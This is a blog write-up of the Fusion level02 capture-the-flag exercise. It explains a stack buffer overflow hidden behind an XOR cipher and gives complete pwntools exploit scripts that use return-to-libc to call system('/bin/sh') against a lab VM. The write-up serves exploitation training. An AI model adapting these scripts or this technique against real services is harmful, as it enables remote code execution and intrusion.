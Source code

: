 ```yaml
---
layout: post
title:  "[Exploit-exercises] Fusion level02"
date:   2018-03-18 18:00:00 +0000
categories: "CTF"
comments: true
---
```


This exercise was interesting because I used GDB without PEDA and we all know how this tool can rapidly be an essential when debugging. Hence, no **searchmem** command with which I was really used to.

The source code of the exercise can be found at [exploit-exercises.com](https://exploit-exercises.com/fusion/level02/).

The "About" section of the challenge is:
>This level deals with some basic obfuscation / math stuff

>This level introduces non-executable memory and return into libc / .text / return orientated programming (ROP).
![Fusion level02 description]({{ "/assets/fusionlevel02.png" | absolute_url }})

There are multiple solutions to this exercise that you can find just by googling its name. I used a return into libc approach.

Preparing GDB
---------------------
Because it's not so simple for beginners, let's see how I configured GDB on the fusion virtual machine. First we want to log in as root because otherwise we can't attach GDB to the level02's process and then we use **pgrep** to retrieve the PID of the process.
{% highlight shell %}
fusion@fusion:~$ sudo -s
[sudo] password for fusion:
root@fusion:~# pgrep level02
1690
root@fusion:~# gdb
{% endhighlight %}

At this point, we should say to GDB that we want to disassemble the code in the Intel style (I think it's much easier to read). Then, we want to follow the child that the process will create when called. I'm not 100% sure but the program seems to listen to a specific port and fork to execute the source code we have. And we attach GDB to the level02 process.
{% highlight shell %}
(gdb) set disassembly-flavor intel
(gdb) set follow-fork-mode child
(gdb) attach 1690
{% endhighlight %}

Now GDB is ready.

Static analysis
---------------------
The program starts with the *encrypt_file* function which will enter in a while loop that reads several times from the standard input and also writes to the standard output. It uses functions called *nread* and *nwrite* which are the obfuscation part of the exercise I guess. But after a quick look at these, it doesn't seem to make any difference.

In the middle of the loop, *cipher* is called with 'buffer' and 'sz' as arguments. This function basically xor the buffer with a key that is taken from /dev/urandom. But this key is generated at the first call of the function and keeps its value for eventual next call because it's a static variable.

Here is the description of the loop:

+ The first nread takes an unsigned char (1 byte) and then comes a switch case wether it's 'E' or 'Q'.
+ If it's 'E', then it reads 4 bytes (size_t) and places it in 'sz'. If it's 'Q', the function returns.
+ And here is our buffer overflow, it reads 'sz' bytes and stores it into 'buffer'.
+ The buffer is xored and if this is the first time *cipher* is called; the key is created.
+ The first nwrite writes 'sz' (4 bytes) to stdout.
+ The second one writes the xored buffer.
+ Starts again

If we read more than the size of the 'buffer' (131072 bytes), we can override EIP. The assembly code just before the 3rd nread call is:
{% highlight nasm %}
0x08049871 <+122>:	mov    eax,DWORD PTR [ebp-0x20014]
0x08049877 <+128>:	mov    DWORD PTR [esp+0x8],eax // sz address
0x0804987b <+132>:	lea    eax,[ebp-0x2000c]
0x08049881 <+138>:	mov    DWORD PTR [esp+0x4],eax // buffer address
0x08049885 <+142>:	mov    DWORD PTR [esp],0x0 // stdin
0x0804988c <+149>:	call   0x804952d <nread>
{% endhighlight %}
Our buffer is at $ebp-0x2000c.

Controlling EIP
---------------------
Let's try to send 0x2000c + 0x8 bytes (0x20014) as buffer, and see if it overrides EIP.
{% highlight shell %}
python -c "print('E' + '\x14\x00\x02\x00' + 'A'*0x2000c + 'BBBBCCCC' + 'Q')" | nc 192.168.56.101 20002
{% endhighlight %}
'CCCC' should be the new EIP ('BBBB' overrides EBP). The 'Q' allows us to quit the function without calling the *exit* function and then executing our new EIP.

Result:
{% highlight shell %}
(gdb) c
Continuing.
[New process 2423]

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 2423]
0xfe334c95 in ?? ()
{% endhighlight %}
I guess this is 'CCCC' but xored by the *cipher* function.

Now, as we saw that the key with which the buffer is xored is generated the first time *cipher* is called, we can presumably send the same size and the xored buffer in the second loop iteration because **k xor (buffer xor k) = buffer** (with k=key).

I used [pwntools](https://github.com/Gallopsled/pwntools) to write the exploit (awesome tool).
{% highlight python %}
#!/usr/bin/python2

from pwn import *

c = remote('192.168.56.101',20002)
c.recvline() # "Entreprise..."

payload = 'A'*0x2000c + 'BBBB' + 'CCCC'

c.send('E' + p32(len(payload)) + payload)
c.recvline() # "encryption..."
size = c.recvn(4)

enc = c.recvn(len(payload)) # encrypter buffer

c.send('E' + p32(len(enc)) + enc + 'Q')

c.interactive()
{% endhighlight %}
*recvn(n)* waits for exactly n bytes on the socket. Let's run the script:
{% highlight shell %}
(gdb) c
Continuing.
[New process 2758]

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 2758]
0x43434343 in ?? ()
{% endhighlight %}
We now fully control EIP.

Return into libc
---------------------
It was the most funniest part, because this is wehre I learned things. I choosed a return into libc approach because it seemed to be the most simple way. Return into libc is a classical attack and if you want to learn how it works this [exploitdb paper](https://www.exploit-db.com/docs/english/28553-linux-classic-return-to-libc-&-return-to-libc-chaining-tutorial.pdf) explains it.

The classical way to exploit it is to execute the *system* function with '/bin/sh' as an argument. EIP should be the address of *system* then a dummy return address (or exit function if you want to do it properly) and finally the address of '/bin/sh'. My challenge was, how to find this function address and this string without using GDB ?

First let see where is the libc:
{% highlight shell %}
root@fusion:~# ldd /opt/fusion/bin/level02
	linux-gate.so.1 =>  (0xb77fc000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7674000)
	/lib/ld-linux.so.2 (0xb77fd000)
{% endhighlight %}

Now, we can search for the address of *system*:
{% highlight shell %}
root@fusion:~# objdump -d /lib/i386-linux-gnu/libc.so.6 | grep "system"
   3c5af:	0f 85 f6 05 00 00    	jne    3cbab <__libc_system+0x8b>
   3c626:	0f 85 8f 05 00 00    	jne    3cbbb <__libc_system+0x9b>
   3c72a:	0f 85 9b 04 00 00    	jne    3cbcb <__libc_system+0xab>
   3c7a2:	0f 85 33 04 00 00    	jne    3cbdb <__libc_system+0xbb>
   3c86f:	0f 85 76 03 00 00    	jne    3cbeb <__libc_system+0xcb>
   3c8d6:	0f 85 1f 03 00 00    	jne    3cbfb <__libc_system+0xdb>
   3caaa:	0f 85 5b 01 00 00    	jne    3cc0b <__libc_system+0xeb>
   3cb11:	0f 85 04 01 00 00    	jne    3cc1b <__libc_system+0xfb>
0003cb20 <__libc_system>:
   3cb40:	74 26                	je     3cb68 <__libc_system+0x48>
   3cb4a:	75 40                	jne    3cb8c <__libc_system+0x6c>
   3cba9:	eb cf                	jmp    3cb7a <__libc_system+0x5a>
000faad0 <svcerr_systemerr>:
{% endhighlight %}
When searching for *__libc_system* on google we find this [result](https://github.com/lattera/glibc/blob/master/sysdeps/posix/system.c) and we can see that this function is called with an argument (line) which is then passed to another function (do_system) and again to *__execve*. The address of *__libc_system* is 0x0003cb20.

Then we have to find a string like '/bin/sh'. We can use the ROPgadget tool provided in the fusion VM but I wanted to find another way to search for a string and its address, and apparently we can use the **string** command:
{% highlight shell %}
root@fusion:~# strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"
 1388da /bin/sh
{% endhighlight %}

The next step is to find where the libc is mapped for this binary, we can find it using /proc/PID/maps:
{% highlight shell %}
root@fusion:~# cat /proc/1690/maps
08048000-0804b000 r-xp 00000000 07:00 75275      /opt/fusion/bin/level02
0804b000-0804c000 rw-p 00002000 07:00 75275      /opt/fusion/bin/level02
b770a000-b770b000 rw-p 00000000 00:00 0
b770b000-b7881000 r-xp 00000000 07:00 92669      /lib/i386-linux-gnu/libc-2.13.so
b7881000-b7883000 r--p 00176000 07:00 92669      /lib/i386-linux-gnu/libc-2.13.so
b7883000-b7884000 rw-p 00178000 07:00 92669      /lib/i386-linux-gnu/libc-2.13.so
b7884000-b7887000 rw-p 00000000 00:00 0
b7891000-b7893000 rw-p 00000000 00:00 0
b7893000-b7894000 r-xp 00000000 00:00 0          [vdso]
b7894000-b78b2000 r-xp 00000000 07:00 92553      /lib/i386-linux-gnu/ld-2.13.so
b78b2000-b78b3000 r--p 0001d000 07:00 92553      /lib/i386-linux-gnu/ld-2.13.so
b78b3000-b78b4000 rw-p 0001e000 07:00 92553      /lib/i386-linux-gnu/ld-2.13.so
bfedc000-bfefd000 rw-p 00000000 00:00 0          [stack]
{% endhighlight %}
We clearly see that the libc is mapped from 0xb770b000 to 0xb7884000 and that its executable part (r-xp) start at 0xb770b000. When calling the *__libc_system* function and the '/bin/sh' string, we'll have to add the offset of the libc to their address.

Our exploit is now:
{% highlight python %}
#!/usr/bin/python2

from pwn import *

c = remote('192.168.56.101',20002)
c.recvline()#Entreprise...

offset = 0xb770b000 #offset libc /proc/PID/maps
p = ""
p += p32(offset + 0x0003cb20) #system
p += "CCCC" #GARBAGE
p += p32(offset + 0x001388da) #/bin/sh

payload = 'A'*0x2000c + 'BBBB' + p

c.send('E' + p32(len(payload)) + payload)
c.recvline()
size = c.recvn(4)

enc = c.recvn(len(payload))

c.send('E' + p32(len(enc)) + enc + 'Q')

c.interactive()
{% endhighlight %}
Now we have a shell!

